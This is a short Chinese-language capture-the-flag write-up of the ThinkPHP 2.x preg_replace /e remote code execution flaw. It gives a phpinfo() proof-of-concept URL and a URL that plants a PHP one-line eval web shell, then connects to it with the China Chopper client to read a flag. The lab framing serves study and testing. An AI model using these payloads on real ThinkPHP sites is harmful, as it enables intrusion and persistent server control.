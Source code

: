 # ThinkPHP 2.X 任意代码执行

# 漏洞概述

在 ThinkPHP ThinkPHP 2.x 版本中，使用 preg_replace 的 /e 模式匹配路由：`$res = preg_replace('@(\w+)'.$depr.'([^'.$depr.'\/]+)@e', '$var[\'\\1\']="\\2";', implode($depr,$paths));`

导致用户的输入参数被插入双引号中执行，造成任意代码执行漏洞。

 ThinkPHP 3.0 版本因为 Lite 模式下没有修复该漏洞，也存在这个漏洞。所以先来看看`preg_replace`这个函数，这个函数是个替换函数，而且支持正则，使用方式如下：

`preg_replace('正则规则','替换字符','目标字符')`

这个函数的3个参数，结合起来的意思是：如果目标字符存在符合正则规则的字符，那么就替换为替换字符，如果此时正则规则中使用了`/e`这个修饰符，则存在代码执行漏洞。

下面是搜索到的关于`/e`的解释：

```
e 配合函数preg_replace()使用, 可以把匹配来的字符串当作正则表达式执行;  
/e 可执行模式，此为PHP专有参数，例如preg_replace函数。
```

## Write up

首先打开靶场

![1](./1.png)

利用 POC 来验证, phpinfo() 成功执行。

```
/index.php?s=/index/index/xxx/${@phpinfo()}
```

![2](./2.png)

然后写入一句话

`/index.php?s=/index/index/xxx/${${@eval($_POST[1])}}`

并用菜刀连接

![4](./4.png)

连接完成后去 tmp 临时文件下去查看 Flag

![5](./5.png)
